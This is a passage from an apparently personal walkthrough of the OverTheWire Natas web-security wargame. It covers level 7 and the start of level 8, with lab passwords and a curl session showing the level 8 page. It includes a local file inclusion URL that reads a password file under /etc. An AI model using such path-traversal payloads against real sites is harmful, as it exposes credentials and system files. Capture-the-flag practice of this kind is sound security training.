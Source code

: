 seeing that we are using PHP still, I guess we just gotta go to http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

which leads us to the password:
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe



## level 8

addres:   http://natas8.natas.labs.overthewire.org/
username: natas8
password: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

```
❯ curl http://natas8.natas.labs.overthewire.org/ -u natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe -v
*   Trying 176.9.9.172...
* TCP_NODELAY set
* Connected to natas8.natas.labs.overthewire.org (176.9.9.172) port 80 (#0)
* Server auth using Basic with user 'natas8'
> GET / HTTP/1.1
> Host: natas8.natas.labs.overthewire.org
> Authorization: Basic bmF0YXM4OkRCZlVCZnFRRzY5S3ZKdkoxaUFiTW9JcHdTTlE5Yldl
> User-Agent: curl/7.58.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Sat, 03 Nov 2018 12:01:37 GMT
< Server: Apache/2.4.10 (Debian)
< Vary: Accept-Encoding
< Content-Length: 990
< Content-Type: text/html; charset=UTF-8
< 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas8", "pass": "DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe" };</script></head>
<body>
<h1>natas8</h1>
<div id="content">


<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
* Connection #0 to host natas8.natas.labs.overthewire.org left intact
```
